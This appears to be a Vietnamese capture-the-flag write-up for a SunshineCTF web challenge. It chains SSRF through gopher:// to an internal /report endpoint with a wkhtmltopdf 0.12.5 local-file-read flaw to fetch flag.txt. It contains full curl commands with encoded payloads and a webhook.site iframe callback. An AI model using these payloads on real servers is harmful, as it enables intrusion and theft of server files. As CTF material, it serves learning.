





# Phân tích
Từ source của challenge mình biết challange có chức năng hiển thị thông tin thông qua console bằng cách sử dụng `POST với tham số feed=<url>`


Kiểm tra 1 vài test case mình phát hiện với test case `http://127.0.0.1:8000/` server trả về 3 route `GET /health` `GET /feed` `POST /report`


1 vấn đề xảy ra là không thể thực hiện POST `/report` thì server chỉ gửi GET. Sau khi tìm trên google mình tìm được 1 schema `gopher`, thông cơ cơ chế hoạt động [How Gopher works in escalating SSRFs](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630) của nó mình sẽ gửi các byte (request POST) tới server. Thông qua đó mình thử gọi /report với payload mà server mong đợi. Kết quả trả về file pdf và hiện thị `content` trong file pdf. Ngoài ra còn cho biết công cụ để tạo pdf là `wkhtmltopdf 0.12.5` một công cụ với version khá cũ

```shell
curl -i -X POST \
-H "Content-Type: application/x-www-form-urlencoded"\
--data-urlencode "feed=gopher://127.0.0.1:8000/_POST%20%2freport%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%3a8000%0d%0aConnection%3a%20close%0d%0aContent-Type%3a%20application%2fx-www-form-urlencoded%0d%0aContent-Length%3a%2023%0d%0a%0d%0acontent%3dtung%26title%3dhhah"\
https://odyssey.web.2026.sunshinectf.games
```


Sau đó mình tìm kiếm trên cve.org với wkhtmltopdf 0.12.5 đã cho kết quả là `CVE-2020-21365` nó cho phép đọc file hệ thống thông qua việc tạo 1 tệp html. Giờ mình sẽ tiến hành kiểm tra bằng các schema `file` nhưng 1 vài các đường dẫn kh thấy phản hồi và mình kiểm tra cách khác `content` là `<iframe src="http://webhook.site/2e6d3481-4154-4a13-90f7-461faec9e3f9"> </iframe> ` kết quả cho thấy đã có req gửi về.


# Khai thác
Mình tạo payload với content là `<ifram src="file:///flag.txt"> </iframe>'

```shell
curl -i -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "feed=gopher://127.0.0.1:8000/_POST%20%2freport%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%3a8000%0d%0aConnection%3a%20close%0d%0aContent-Type%3a%20application%2fx-www-form-urlencoded%0d%0aContent-Length%3a%2059%0d%0a%0d%0acontent%3d%3cifram%20src%3d%22file%3a%2f%2f%2fflag.txt%22%3e%20%3c%2fiframe%3e%26title%3dhhah" \ 
https://odyssey.web.2026.sunshinectf.games
```


